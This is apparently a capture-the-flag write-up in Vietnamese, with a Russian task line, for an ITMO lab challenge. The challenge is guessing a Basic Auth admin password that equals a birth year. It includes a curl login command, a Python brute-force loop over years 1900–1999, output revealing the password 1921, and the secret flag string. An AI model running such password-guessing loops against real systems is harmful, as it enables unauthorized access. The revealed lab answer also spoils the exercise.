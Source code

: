 # Админ сайта (admin) установил пароль равный своему году рождения на страницу /admin. Сможете авторизоваться?
# Bài này yêu cầu bạn truy cập vào trang web có bảo mật bằng Basic Authentication. Thông tin bạn có là trang /admin được bảo vệ bằng mật khẩu, và mật khẩu chính là năm sinh của người quản trị trang web (admin).

# Basic Authentication là gì?
- Basic Authentication là một phương thức bảo mật đơn giản, trong đó khi bạn truy cập vào một trang yêu cầu đăng nhập, trình duyệt của bạn sẽ yêu cầu nhập tài khoản và mật khẩu. Sau đó, thông tin này sẽ được mã hóa (dưới dạng Base64) và gửi lên máy chủ để xác thực.

# Cách thực hiện

Khi truy cập vào đường dẫn: https://6bf7e033-4b12-456f-a1cb-3e6b70d58891-web.web.lms.itmo.xyz/admin, trình duyệt sẽ yêu cầu bạn nhập username và mật khẩu.
Username có thể là admin, mật khẩu bạn sẽ đoán là một trong các năm sinh như 1980, 1985, 1990, v.v.

Sử dụng cURL: Nếu bạn sử dụng terminal (Linux), bạn có thể dùng lệnh curl để thử đăng nhập.

```curl -u admin:1980 https://6bf7e033-4b12-456f-a1cb-3e6b70d58891-web.web.lms.itmo.xyz/admin```

Để dò mật khẩu tự động ta làm như sau:

*thay url bằng url của bạn:*

```python
import requests
from requests.auth import HTTPBasicAuth

url = 'https://6bf7e033-4b12-456f-a1cb-3e6b70d58891-web.web.lms.itmo.xyz/admin'

# Thử các năm từ 1900 đến 200
for year in range(1900, 2000):
    response = requests.get(url, auth=HTTPBasicAuth('admin', str(year)))
    if response.status_code == 200:
        print(f"Đăng nhập thành công với mật khẩu: {year}")
        break
    else:
        print(f"Thử {year}: không thành công")
```

**Kết quả:**

```bash
$ python3 Basic_Auth.py 
Thử 1900: không thành công
Thử 1901: không thành công
Thử 1902: không thành công
Thử 1903: không thành công
Thử 1904: không thành công
Thử 1905: không thành công
Thử 1906: không thành công
Thử 1907: không thành công
Thử 1908: không thành công
Thử 1909: không thành công
Thử 1910: không thành công
Thử 1911: không thành công
Thử 1912: không thành công
Thử 1913: không thành công
Thử 1914: không thành công
Thử 1915: không thành công
Thử 1916: không thành công
Thử 1917: không thành công
Thử 1918: không thành công
Thử 1919: không thành công
Thử 1920: không thành công
Đăng nhập thành công với mật khẩu: 1921
```

Sau đó đăng nhập bằng user name : addmin
password là năm sinh:

nó sẽ hiện ra như vậy: 
```bash
Hello, admin. Your secret data is 20e2d747c911e970c080fe1084d6315653cb2738041304c491c077f3055dcef63acabf31d753fd29623e799898b04a878f !
```
